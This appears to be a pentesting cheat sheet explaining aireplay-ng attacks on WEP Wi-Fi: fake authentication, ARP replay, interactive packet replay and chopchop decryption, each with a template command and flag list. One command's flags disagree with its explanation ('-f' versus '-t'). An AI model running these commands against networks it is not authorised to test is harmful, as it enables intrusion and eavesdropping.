 ### Fake Authentication

The fake authentication attack allows you to associate to an access point using either of the two types of WEP authentication: the open system and shared key authentication.  

This attack is useful in scenarios where there are no associated clients and you need to fake an authentication to the AP.
> `aireplay-ng -1 0 -e <essid> -a <ap> -h <you> <interface>`

* `-1 - Fake Authentication Attack`
* `0 - The reassociation timing in seconds`
* `-e <essid> - The wireless network name (ESSID)`
* `-a <ap> - The AP MAC address`
* `-h <you> - Your attacking MAC address`


### ARP Request Replay Attack

The ARP request replay attack is the most effective way to generate new initialization vectors and of all the attacks Aireplay has to offer, this attack is probably the most reliable.

> `aireplay-ng -3 -b <ap> -h <you> <interface>`

* `-3 - ARP Request Replay Attack`
* `-b <ap> - The AP MAC address`
* `-h <you> - Your attacking MAC address`

For this attack, your wireless card needs to be in monitor mode and you will need either the MAC address of an associated client or your own MAC address after having performed a fake authentication with the AP.

### Interactive Packet Replay Attack

The Interactive Packet Replay attack allows you to choose a specific packet for replaying/injecting against the target network.
> `aireplay-ng -2 -b <ap> -d ff:ff:ff:ff:ff:ff -f 1 -m 68 -n 86 <interface>`

* `-2 - Interactive Packet Replay Attack`
* `-b <ap> - The AP MAC address`
* `-d ff:ff:ff:ff:ff:ff - Select packets with a broadcast destination address`
* `-t 1 - Select packets with the "To Distribution System" flag set`
* `-m <num> - Minimum packet size`
* `-n <num> - Maximum packet size`

### KoreK chopchop attack

The Korek chopchop attack, when successful, can decrypt a WEP data packet without knowing the WEP key and can even work against dynamic WEP.  

This attack does not recover the WEP key itself; it merely reveals the plaintext of the packets.

> `aireplay-ng -4 -b <ap> -h <you> <interface>`

* `-4 - KoreK ChopChop Attack`
* `-b <ap> - The AP MAC address`
* `-h <you> - The source MAC address
